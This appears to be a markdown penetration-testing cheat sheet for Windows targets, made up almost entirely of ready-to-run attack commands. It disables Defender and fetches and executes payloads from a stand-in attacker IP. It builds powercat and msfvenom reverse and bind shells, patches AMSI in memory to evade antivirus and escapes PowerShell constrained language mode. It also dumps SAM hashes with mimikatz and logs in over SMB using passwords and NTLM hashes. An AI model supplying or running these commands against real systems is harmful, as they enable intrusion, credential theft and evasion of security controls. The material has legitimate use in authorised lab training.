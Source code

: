 - Disable Defender
    - Set-MpPreference -DisableRealtimeMonitoring $true
- C compile to exe in linux `i686-w64-mingw32-gcc adduser.c -o adduser.exe`
  
# Windows file transfers
- Powershell
    -   `powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.10.10.10/wget.exe','C:\Windows\Temp\wget.exe')"`
    -   `iex(iwr http://10.10.10.10/shell.exe)`
- Recieve file with powercat(send file with nc) `powercat -c 10.10.10.10 -p 443 -i file.txt`


# Windows shells
- Kali has nc.exe at /usr/share/windows-resources/binaries/nc.exe
- C# compile + run
    - `C:\windows\microsoft.net\framework64\v4.0.30319\csc.exe /t:exe /out:C:\windows\temp\rev.exe C:\windows\temp\rev.cs`
- Powershell 
    - [Invoke-PowerShellTcp.ps1](https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1)
    - [Powershell-OneLinerReverseShell](https://gist.githubusercontent.com/egre55/c058744a4240af6515eb32b2d33fbed3/raw/2c6e4a2d6fd72ba0f103cce2afa3b492e347edc2/powershell_reverse_shell.ps1)
    - Base64 encode powershell in linux and execute with -e `Cat shell.ps1 | iconv -t utf-16le | base64 -w 0`
    - [Environment]::Is64BitProcess
    - powershell -ep bypass -noprofile -WindowStyle Hidden -e UYGfxemu...
- Powercat
    - Generate reverse shell `powercat -c 10.10.10.10 -p 443 -e cmd.exe -g`
    - Encoded reverse shell `powercat -c 10.11.0.4 -p 443 -e cmd.exe -ge`
    - Reverse shell `powercat -c 10.10.10.10 -p 443 -e cmd.exe`
    - Bind shell `powercat -l -p 443 -e cmd.exe`
    - Listener `powercat -l -p 443`
- Msf
    -   Powershell `msfvenom -p cmd/windows/reverse_powershell lhost=10.10.10.10 lport=80`
    -   MSHTA
        -   use exploit/windows/misc/hta_server
        -   mshta.exe hxxp://10.10.65.86:8080/VlHPpQahHBNkkeX.hta  
# Bypass
1. AMSI
```
$Win32 = @"
using System;
using System.Runtime.InteropServices;

public class Win32 {

    [DllImport("kernel32")]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);

    [DllImport("kernel32")]
    public static extern IntPtr LoadLibrary(string name);

    [DllImport("kernel32")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);

}
"@
Add-Type $Win32
$LoadLibrary = [Win32]::LoadLibrary("am" + "si.dll")
$Address = [Win32]::GetProcAddress($LoadLibrary, "Amsi" + "Scan" + "Buffer")
$p = 0
[Win32]::VirtualProtect($Address, [uint32]5, 0x40, [ref]$p)
$Patch = [Byte[]] (0xB8, 0x57, 0x00, 0x07, 0x80, 0xC3)
[System.Runtime.InteropServices.Marshal]::Copy($Patch, 0, $Address, 6)
```
2. ConstrainedLanguage mode
`Write-Host $ExecutionContext.SessionState.LanguageMode`
```
If ( $ExecutionContext.SessionState.LanguageMode -eq "ConstrainedLanguage") {

  Set-ItemProperty 'hklm:\SYSTEM\CurrentControlSet\Control\Session Manager\Environment' -name '__PSLockdownPolicy' -Value 8

  Start-Process -File PowerShell.exe -Argument "-file $($myinvocation.mycommand.definition)"

  Break

}
```

# Windows privilege escalation
- Tools [Winpeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS) and [PowerUp](https://github.com/PowerShellEmpire/PowerTools/blob/master/PowerUp/PowerUp.ps1)
- [LOLbas](https://lolbas-project.github.io/)
- whoami
- net user
- User member of which groups `net user USERNAME`
- Get hostname to understand functionality of box `hostname`
- Get system info `systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"`
- Running process `tasklist /SVC`
- Get Process statsus `wmic service where caption="Serviio" get name, caption, state, startmode`
- Start/Stop service `net start Serviio``net stop Serviio`
- Get networking info `ipconfig /all` `route print`
- Networking connections `netstat -ano`
- Firewall
	- current profile for firewall `netsh advfirewall show currentprofile`
	- Firewall rules `netsh advfirewall firewall show rule name=all`
- Scheduled Tasks `schtasks /query /fo LIST /v`
- Installed applications `wmic product get name, version, vendor`
- Security patches `wmic qfe get Caption, Description, HotFixID, InstalledOn`
- Writable files
	- `accesschk.exe -uws "Everyone" "C:\Program Files"`
	- `Get-ChildItem "C:\Program Files" - Recurse | Get-ACL | ?{$_.AccessToString -match "Everyone\sAllow\s\sModify"}`
- File permissions with Icacls
	- `icacls "C:\Program Files\Serviio\bin\ServiioService.exe"`
	- F M RX R W = Full Modify Read&Execute Read-only Write-only
- Unmounted disks `mountvol`
- Windows Drivers
	- `driverquery /v` searchsploit the driver name
	- `driverquery.exe /v /fo csv | ConvertFrom-CSV | Select-Object 'Display Name', 'Start Mode', Path`
	- `Get-WmiObject Win32_PnPSignedDriver | Select-Object DeviceName, DriverVersion, Manufacturer | Where-Object {$_.DeviceName -like "*VMware*"}`
- Auto elevate `reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer` `reg queryHKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\Installer`
- Get intigrity of session(High/Medium/Low in bottom of o/p) `whoami /groups`
- Run as diffrent user `powershell.exe Start-Process cmd.exe -Verb runAs`
- whoami /priv
	- SeShutdownPrivilege = We can restart `shutdown /r /t 0`
	- SeImpersonatePrivilege on Windows 10 and Server 2016/2019 [PrintSpoofer](https://github.com/itm4n/PrintSpoofer)
 
- Unquoted Service Paths `wmic service get name,displayname,pathname,startmode |findstr /i "auto" |findstr /i /v "c:\windows\\" |findstr /i /v """`
- 
### mimikatz.exe
- `privilege::debug` `token::elevate` 
- Dump SAM `lsadump::sam` 
### SMB
- Netbios (TCP 139 | UDP 137 138)
	- Netbios can give us Hostname, Netbios name, Domain, Network Shares
	- UNC (Universal Naming Convention) paths `\\ServerName\ShareName\file.txt`
### SMB with creds/hashes
- Login with creds
	- `psexec.py administrator:Password1@10.0.0.10`
	- `smbexec.py administrator:carolina@10.0.0.169`
	- `winexe -U administrator%alice_123321 //10.0.0.6 'whoami'`
	- `evil-winrm -u administrator -p rocknroll_123321 -i 10.0.0.192`
- Login with hash
    - `pth-winexe -U user%NTLM_HASH //10.10.10.10 cmd.exe`
    - `python smbclient.py -hashes 00000000000000000000000000000000:3CAC6D4B3A7E5014E32EB12EF0C75476 Domain/Administrator@IP`
